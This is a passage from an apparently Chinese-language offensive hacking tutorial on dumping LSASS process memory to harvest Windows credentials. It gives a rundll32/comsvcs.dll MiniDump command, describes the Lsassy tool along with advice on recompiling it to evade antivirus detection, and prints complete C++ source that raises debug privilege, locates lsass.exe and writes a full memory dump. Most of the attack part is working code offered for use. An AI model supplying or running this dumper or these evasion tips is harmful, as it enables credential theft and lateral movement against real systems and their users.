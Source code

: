     
    
    copy C:\windows\System32\comsvcs.dll 110.dllrundll32.exe 110.dll, MiniDump 508 lsass.dmp full

 _（向右滑动，查看更多）_

###  ****

###  

###  **技巧六：开源工具Lsassy转存储**

  
这个是GitHub上开源的一款工具，但是无法绕过免杀，一上就被杀。但是我们可以借鉴一下源码，可以通过Go语言编译修改特征码或者替换敏感函数...操作。达到一个比较好的一个免杀效果（GitHub项目的开源地址：https://github.com/Hackndo/lsassy）。  
而且Lsassy可以当做Python库，它可以搭配其他库，编写出python版本的Mimikatz。Lsassy不仅使用了impacket从Lsass.exe导出数据中远程读取所需的敏感内容，还使用了pypykatz来提取用户凭证（而且携带的内容丰富，包括上面介绍的一种方法）。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221009195157.png)  
小提示：这个只适用于我们的域环境，毕竟批量操作是真的香啊！

###  

###  **技巧七：利用快照转存储**

    
    
      
    
    
      *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
    
    
    
     #include <windows.h>#include <DbgHelp.h>#include <iostream>#include <TlHelp32.h>  
    #pragma comment ( lib, "dbghelp.lib" )  
    using namespace std;  
    #define INFO_BUFFER_SIZE 32767  
    std::wstring s2ws(const std::string& s){int len;int slength = (int)s.length() + 1;len = MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, 0, 0);wchar_t* buf = new wchar_t[len];MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, buf, len);std::wstring r(buf);delete[] buf;return r;}// 提升权限为 debugbool EnableDebugPrivilege(){HANDLE hToken;LUID sedebugnameValue;TOKEN_PRIVILEGES tkp;  
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)){return   FALSE;}if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &sedebugnameValue)) //修改进程权限{CloseHandle(hToken);return false;}tkp.PrivilegeCount = 1;tkp.Privileges[0].Luid = sedebugnameValue;tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;if (!AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL)) //通知系统修改进程权限{CloseHandle(hToken);return false;}return true;}  
    int main() {char filename[INFO_BUFFER_SIZE];char infoBuf[INFO_BUFFER_SIZE];DWORD  bufCharCount = INFO_BUFFER_SIZE;GetComputerNameA(infoBuf, &bufCharCount);strcpy_s(filename, infoBuf);strcat_s(filename, "-");strcat_s(filename, "lsass.dmp");  
    DWORD lsassPID = 0;HANDLE lsassHandle = NULL;HANDLE outFile = CreateFileA(filename, GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);PROCESSENTRY32 processEntry = {};  // 拍摄快照时驻留在系统地址空间里的进程列表结构体processEntry.dwSize = sizeof(PROCESSENTRY32);   //结构大小LPCWSTR processName = L"";  //进程名  
    if (Process32First(snapshot, &processEntry)) {  //检索快照中第一个进程的信息while (_wcsicmp(processName, L"lsass.exe") != 0) {  //循环检索快照中的进程Process32Next(snapshot, &processEntry);processName = processEntry.szExeFile;   // 获取当前进程的进程名lsassPID = processEntry.th32ProcessID;}wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;}  
    if (EnableDebugPrivilege() == false){printf("enable %d", GetLastError());}EnableDebugPrivilege();lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID); // 根据 Pid 打开 lsass.exe 进程，获取句柄BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL); //转储lsass，写入outfile  
    if (isDumped) {cout << "[+] Save To " << filename << endl;cout << "[+] lsass dumped successfully!" << endl;}  
    return 0;}
